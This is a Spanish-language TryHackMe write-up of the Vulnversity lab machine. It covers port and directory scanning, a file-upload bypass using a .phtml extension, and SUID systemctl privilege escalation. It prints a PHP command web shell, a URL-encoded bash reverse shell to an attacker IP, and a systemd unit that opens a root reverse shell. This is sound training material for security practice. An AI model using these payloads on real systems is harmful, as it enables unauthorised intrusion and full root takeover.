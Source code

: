 ```yaml
---
layout: single
title: Vulnversity - TryHackMe
excerpt: " This machine mainly focused on active recon, web app attacks, and privilege escalation. "
date: 2022-10-15
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-vulnversity/vulnversity.png
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:  
  - php
  - suid
  - systemctl
---
```


This machine mainly focused on active recon, web app attacks, and privilege escalation.

# Summary
- IP: 10.10.129.26
- Ports: 21,22,139,445,3128,3333
- OS: Linux (Ubuntu)
- Services & Applications:
	-  21 -> vsftpd 3.0.3
	-  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.7
	-  139 -> Samba smbd 3.X - 4.X
	-  445 -> Samba smbd 4.3.11-Ubuntu
	-  3128 -> Squid http proxy 3.5.12
	-  3333 -> Apache httpd 2.4.18

# Recon

- Escaneo básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.129.26 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$sudo nmap -p21,22,139,445,3128,3333 -sCV 10.10.129.26 -oN targeted
```

- Escaneo de directorios:

```bash
$gobuster dir -u http://10.10.54.172:3333/ -w /home/dante/SecLists/Discovery/Web-Content/common.txt -t 100

$gobuster dir -u http://10.10.54.172:3333/internal -w /home/dante/SecLists/Discovery/Web-Content/common.txt -t 100
```

- Nos encontramos el directorio "internal" el cuas nos permite subida de archivos, aprovechamos e intentamos subir un PHP malicioso, sin embargo no se permite la extension php, probamos con todas las demás variantes y funciona con la extensión "phtml":

```bash
$nano shell.phtml

<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

- Lo subimos y accedemos a él desde el directorio /internal/uploads, ejecutamos una reverse shell básica mediante el parámetro "cmd" en la url:

http://10.10.54.172:3333/internal/uploads/cmd.phtml?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.18.101.123/443%200%3E%261%22

- Hacemos tratamiento de la tty y obtenemos primera flag.

# ESCALANDO PRIVILEGIOS:

- Buscamos binarios con permisos SUID:

 ```bash
 find / -perm -4000 2>/dev/null
 ```

- Encontramos un binario clave "/bin/systemctl", con una búsqueda encontramos la manera de poder aprovecharlo para ganar privilegios [Privilege Escalation: Systemctl (Misconfigured Permissions — sudo/SUID) (github.com)](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740)

- Creamos un archivo "root.service" con el siguiente contenido:

```
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/KaliIP/9999 0>&1'

[Install]
WantedBy=multi-user.target
```


- Luego ejecutamos los siuientes comandos estando en escucha en la máquina atacante:

```bash
/bin/systemctl enable /dev/shm/root.service
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /dev/shm/root.service
Created symlink from /etc/systemd/system/root.service -> /dev/shm/root.service
```

```bash
/bin/systemctl start root
```

- Accedemos como root y obtenemos la última flag.
